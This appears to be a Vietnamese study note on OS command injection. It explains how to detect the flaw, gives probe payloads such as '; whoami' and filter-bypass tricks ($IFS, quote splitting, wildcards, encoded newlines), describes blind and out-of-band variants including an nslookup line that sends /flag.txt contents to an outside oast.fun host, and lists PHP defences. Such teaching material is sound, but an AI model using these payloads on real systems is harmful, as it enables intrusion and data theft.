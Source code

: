 # Khái niệm
- **Command Injection** là lỗ hổng cho phép kẻ tấn công thực thi các lệnh hệ trên máy chủ của trang web nhằm lấy cắp thông tin được lưu trên máy chủ này.

# Cách nhận biết
## 1. Có thể xem được source code
- Để ý, kiểm tra các `system()`, `exec()`, `shell_exec()`, `os.system()`

## 2. Không có source code
- Gửi payload đơn giản qua các input có dấu hiệu khả nghi (tìm những chỗ nhập tên, IP, domain,...):

```bash
; whoami
| whoami
&& whoami
```
- Hoặc khi bị chặn ký hiệu đặc biệt thì có thể encode nó để bypass được
- Xong rồi quan sát xem có kết quả gì trả về hay thay đổi gì bất thường trong response hay không

# Hướng khai thác
- Test input có bị kiểm soát không bằng các payload như:

`;id`, `&& whoami`, `| ls /`

- Thử lệnh đơn giản để dò kết quả:
    - Nếu thấy output → Non-blind → dễ khai thác
    - Nếu không thấy output → thử blind:
        Gửi lệnh có `sleep`, hoặc `ping`, `nslookup` để kiểm tra dựa trên thời gian hoặc kết nối ngoài
- Nếu các payloads trên bị chặn thì có thể thử bypass:
    - `<`: `cat</flag.txt`
    - `$IFS`: thay thế cho dấu cách ` `
    - `who''ami`, `w""hoami`
    - `who\am\i`
    - `$(): who$()ami`
    - `/fl*g` => `/flag`
    - `/flag?????` => `/flagABCDE`
    - `%09` = tab
    - `%0a` = `\n`
    - ...
# Phân loại
- **Non-blind OS Command Injection**: Kẻ tấn công thực hiện tấn công và kết quả trả về trực tiếp, dễ thấy, dễ khai thác

- **Blind Command Injection**: Kẻ tấn công thực thi các lệnh trên máy chủ nhưng kết quả của lệnh được chèn không hiển thị trực tiếp trong phản hồi HTTP, không thấy được output nên phải sử dụng các kỹ thuật để phán đoán, xác nhận
    - **Error-based Command Injection**: Kẻ tấn công dựa vào các thông báo lỗi để sửa đổi câu lệnh tấn công, hoặc khai thác chính thông tin có trong thông báo
    - **Time-based Command Injection**: Kẻ tấn công chèn các lệnh có khả năng gây chậm. Rồi xem thời gian phản hồi, họ có thể suy ra kết quả đúng hoặc sai của một điều kiện 
    Ví dụ: `if [ $(whoami) = 'www-data' ]; then sleep 10; fi`
    - **Out-of-band Command Injection**: Kẻ tấn công chèn lệnh có khả năng tương tác mạng đến với trang web, server bên ngoài mà họ kiểm soát để lấy được thông tin cần thiết
    Ví dụ: `nslookup $(cat /flag.txt).nntcryeccdyaydrczncjueom77dmwlf62.oast.fun`

# Cách phòng tránh
- Không đưa trực tiếp input của người dùng vào câu lệnh như: `system("ping " . $_GET["ip"]);`
- Dùng whilelist để hạn chế việc bị dùng các ký tự nhằm bypass: [a-z0-9A-Z]
- Cho người dùng quyền hạn thấp, chỉ đọc sửa nhưng file cần thiết
- trong PHP có thể sử dụng nhưng hàm như `escapeshellarg()`, `escapeshellcmd()` để có thể escape các ký tự đặc biệt
- Có thể vô hiệu quá các hàm trong `php.ini` nếu không cần thiết
`disable_functions = exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source`
